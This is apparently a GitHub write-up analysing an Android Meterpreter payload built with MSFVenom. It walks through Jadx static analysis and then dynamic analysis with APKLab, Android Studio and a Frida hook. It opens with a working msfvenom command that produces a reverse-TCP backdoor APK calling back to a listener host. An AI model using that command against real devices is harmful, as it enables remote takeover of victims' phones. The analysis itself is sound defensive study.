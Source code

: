 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.

![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.

![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.

![3](https://user-images.githubusercontent.com/36133745/166330015-7593e85c-5e8b-41fc-8b68-32822610297c.png)

Let's have a look at `MainActivity`. It simply calls `startService()` method from `MainService` class.

![4](https://user-images.githubusercontent.com/36133745/166330313-13e44b33-d638-415b-8e96-2b58dd130cce.png)

`MainService` class extended (inherited) from Service, so it's a service that we are dealing with.

![5](https://user-images.githubusercontent.com/36133745/166335467-a7932269-6aeb-466d-b9a2-564b14362811.png)

In this method again `startService` function called, but as we said we are in a service and it calls `MainService.class` in `Intent()`.
```java
public static void startService(Context context) {
    context.startService(new Intent(context, MainService.class));
}
```

So this time `onStartCommand()` method will call. `onStartCommand()` is called every time a client starts the service using `startService(Intent intent)`.

![6](https://user-images.githubusercontent.com/36133745/166336169-c9477814-cce5-4b93-88a8-65e24d209fd1.png)

This method, calls `start()` from `Payload` class. Now let's go deeper and see what `start()` method does.

![7](https://user-images.githubusercontent.com/36133745/166661952-7600a5cf-7f6d-439a-9e00-56d015cabfc1.png)

`start()` function calls `startInPath()` function, and `startInPath()` function calls `e().start()` that lead us to analyse that class and method.

![8](https://user-images.githubusercontent.com/36133745/166662358-72e3cd42-f85c-4539-9df1-311b01198ed2.png)

There is nothing but execute `main()` method from `Payload` class again. We have to back where we were and analyze `main()` function.

![9](https://user-images.githubusercontent.com/36133745/166662629-60f69553-b52f-451d-95b3-54b8dca90517.png)

It's a huge function that can't be even fit in one screenshot. We can see there is a `Socket socket` which indicates we are dealing with a socket connection that's probably attacker C2. Also there is a line contains `a a2 = b.a(a);`. It passes `a` variable to `b.a()` method and save results in `a2`. Left-click on `a` parameter and press `d` on your keyboard (that is a shortcut to get you where variable is decalred).

![10](https://user-images.githubusercontent.com/36133745/166663408-d2ac014a-df8f-429f-aa2c-00d5f090a1e9.png)

It seems a huge array which i guess it can be an IP address or an URL. To make sure of this, I go to `b.a()` method.

![11](https://user-images.githubusercontent.com/36133745/166663788-8a4c2e27-2b9d-4e75-b698-266b7faf0ef0.png)

Again it's a huge function, but this is obvious it decrypts that array. I don't want to waste of my time and try to understand that algorithm, I'll deal with it in dynamic analysis part. But we have to figure it out where it stores the decrypted data. You can see `gVar` everywhere in this function.

![12](https://user-images.githubusercontent.com/36133745/166664915-cee79b68-cb99-46dd-bc10-af7a29f91f48.png)

If you open `g` class, you can see there is nothing but bunch of variables. Now I'm sure it stores the decrypted data in that class's variables.

![13](https://user-images.githubusercontent.com/36133745/166665135-c1c47aa9-a4d6-416a-9abc-cce98874e327.png)

In the `Payload.main()`, after that decryption method, we can see bunch of `while(){}`, `try{}` and `if(){}`.

![14](https://user-images.githubusercontent.com/36133745/166667336-c7e6bacd-461b-497c-864d-919407e9e453.png)

Take a look at where I pointed (ofc with red arrow).

![15](https://user-images.githubusercontent.com/36133745/166668085-a8945a36-98e1-4715-b294-7dc6957edf14.png)


You can see we have a `socket.getOutputStream()` there that passed to `a()`. If you go to where `a()` declared, you see there's `getClassLoader()`. This method let you load the Dex file dynamically. It uses to bypass AV, besides it makes APK file size smaller.

Overall, this APK file connects to attacker C2 (MSFVenom) and downloads a Dex (or JAR) file, loads it and after that, it will be deleted. Now Let's continue our journey in dynamic analysis part.

## 🎬 Part 3 - Dynamic Analysis

For the first step of dynamic analysis, I want to extract attacker C2 IP address. As we saw in static analysis, decrypted attacker IP address is in the `g` class. Let's dump data from that class. I use **Android Studio** to do this. But an important things that worth to mention is "We have to do this quickly before anything happens and malware close itself and run itself as a service", because you saw it creates a service after exectuion. Make sure your USB Debuggign is enabled.

![16](https://user-images.githubusercontent.com/36133745/166671370-f434b2af-8130-4f7c-836b-f10a8b211d5f.png)

But we have to do one thing more before debugging. We have to make this malicious APK debuggable. To do this as easy as possible, I do this with **[APKLab](https://github.com/APKLab/APKLab)**. The installation steps explained in **[APKLab Github](https://github.com/APKLab/APKLab)**.

Now open malicious APK file with APKLab, Then Right-click on `apktool.yml` and Left-click on `APKLab: Rebuild the APK`.

![18](https://user-images.githubusercontent.com/36133745/166682924-ea6c990f-9445-48f8-b3f6-fc87a6797b9d.png)

Make sure you check `--debug` in the opened window.

![19](https://user-images.githubusercontent.com/36133745/166684640-e43bd3a3-a131-4dbf-9bb2-887e446cf8ff.png)

The rebuilded APK output file located in `dist` folder.

![20](https://user-images.githubusercontent.com/36133745/166685952-ee39eea2-6ed5-4534-8c45-6a972234c966.png)

Use `adb` to install rebuilded APK file.

```shell
adb install rebuilded-malicious.apk
```

Now lets analyse `g` class memory. Open **Android Studio** and choose **Profile or Debug APK**.

![17](https://user-images.githubusercontent.com/36133745/166672132-90e6ce28-5444-4675-baba-527b93b11960.png)


Now instead of sending 10 images, I would rather to make a GIF to show the process how to extract data from `g` class.
⚠️ GIF file size is around 6 Mb, Just in case for any problem you can download the GIF file with [this GIF URL](https://user-images.githubusercontent.com/36133745/166686611-a76ee1b1-6c0f-4115-a942-b707de8118e9.gif) via `wget`.

![output](https://user-images.githubusercontent.com/36133745/166686611-a76ee1b1-6c0f-4115-a942-b707de8118e9.gif)

OK. We've successfully got the attacker C2 IP address. Now how we can dump that DEX which is loaded with DexClassLoader. As we know from static analysis, Malware delete DEX file after loading it. So we don't have access to that anymore. We have to uninstall malware and install it again, but this time I hook the `delete()` method from `java.io.File` to disable its functionality. Let's write our hooking code with frida.

```javascript
Java.perform(function(){
  var filecls = Java.use("java.io.File");
  filecls["delete"].overload().implementation = function(){console.log("delete() hooked!"); return true;}
});
```
